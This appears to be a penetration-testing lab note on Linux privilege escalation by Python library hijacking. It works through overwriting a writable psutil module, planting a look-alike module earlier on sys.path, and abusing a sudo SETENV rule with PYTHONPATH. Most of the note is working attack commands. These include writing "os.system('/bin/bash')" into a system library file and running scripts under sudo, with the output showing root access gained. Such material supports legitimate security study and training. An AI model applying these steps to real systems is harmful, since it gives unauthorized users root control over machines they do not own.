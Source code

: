 # Python library hijacking

discover any script work on SUID Privilege then try to discover the content of this file for searching to any function can we abuse of her content

```bash
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
# we choose pustil becuse we imported this library on the script
# then discover any file have a writeble permission

 ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
 #then
 echo "import os;os.system('/bin/bash')" > /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

### **Wrong Write Permissions**

then hijack this file

```bash
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	**import os
	os.system('id')**
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

privesc

```bash
sudo  ./script.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%

```

***

### **Library Path**

first when import library in python the system start search first in the directory of this script then if not found this library it will start search on **`sys.path` . we aim to abuse on this path to add file with the name of library to take a root permission**

```bash
 **# discover pathes
 python3 -c 'import sys; print("\n".join(sys.path))'**
```

_**locate of library**_

```bash
pip3 show psutil
# psutil is a library
```

_**Discover directory permission**_

```bash
ls -lad /usr/lib/python3.8
```

After checking all of the directories listed, it appears that `/usr/lib/python3.8` path is misconfigured in a way to allow any user to write to it. Cross-checking with values from the `PYTHONPATH` variable, we can see that this path is higher on the list than the path in which `psutil` is installed in. Let us try abusing this misconfiguration to create our own `psutil` module containing our own malicious `virtual_memory()` function within the `/usr/lib/python3.8` directory.

_**Hijack Module**_

```bash
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```

_**Privesc**_

```bash
 sudo /usr/bin/python3 mem_status.py
```

***

### **PYTHONPATH Environment Variable**

must have `SETENV` in sudo permission

```bash
 sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

```bash
# manipulate with path
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```
